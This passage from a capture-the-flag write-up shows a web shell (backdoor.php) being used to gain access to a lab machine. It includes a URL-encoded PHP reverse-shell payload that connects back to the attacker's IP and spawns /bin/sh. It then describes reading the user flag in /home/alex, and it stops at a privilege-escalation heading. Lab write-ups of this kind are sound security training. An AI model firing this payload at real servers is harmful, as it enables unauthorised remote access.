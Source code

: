 After creating a listener, now we can supply the reverse shell as a parameter in the URL :

```url
http://<IP-ADDRESS>/backdoor.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22%3CIP-ADDRESS%3E%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%E2%80%99
```

Now if we press enter we can see that the site is continuously loading and if check our listener we could see that we have received back a shell.

<figure><img src="../../.gitbook/assets/Untitled 18 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 19 (2).png" alt=""><figcaption></figcaption></figure>

***

## Getting the User Flag

Now we can start enumerating the target machine. Let’s first check the `/home/alex` directory.

<figure><img src="../../.gitbook/assets/Untitled 20 (4).png" alt=""><figcaption></figcaption></figure>

Hooray!!! we have found the `user.txt` file, our first flag in the home directory of `alex`. Our next step is to find our root flag.

***

## Privilege Escalation
